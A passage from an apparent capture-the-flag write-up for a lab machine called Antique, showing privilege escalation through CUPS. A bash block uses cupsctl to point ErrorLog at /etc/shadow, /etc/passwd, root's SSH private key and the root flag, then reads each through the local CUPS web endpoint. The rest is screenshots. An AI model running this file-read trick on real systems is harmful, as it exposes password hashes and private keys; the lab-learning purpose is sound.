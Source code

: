 > The **`cupsctl`** program is used to manage the printing system as a whole, including things like debug logging and printer sharing. The **CUPS web interface** ("http://localhost:631" or "https://servername:631") can also be used, and most operating systems provide their own GUI administration tools.

```bash
which cupsctl
# --> /usr/sbin/cupsctl

curl http://127.0.0.1:631/admin/log/error_log                           # Emtpy. Nothing!!

cupsctl ErrorLog=/etc/passwd
curl http://127.0.0.1:631/admin/log/error_log 

cupsctl ErrorLog=/etc/shadow
curl http://127.0.0.1:631/admin/log/error_log

cupsctl ErrorLog=/root/.ssh/id_rsa
curl http://127.0.0.1:631/admin/log/error_log

cupsctl ErrolLog=/root/root.txt
curl http://127.0.0.1:631/admin/log/error_log 
```

<br/>
<img src="{{ site.img_path }}/antique_writeup/Antique_31.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/antique_writeup/Antique_32.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/antique_writeup/Antique_33.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/antique_writeup/Antique_34.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/antique_writeup/Antique_35.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/antique_writeup/Antique_36.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/antique_writeup/Antique_37.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/antique_writeup/Antique_38.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
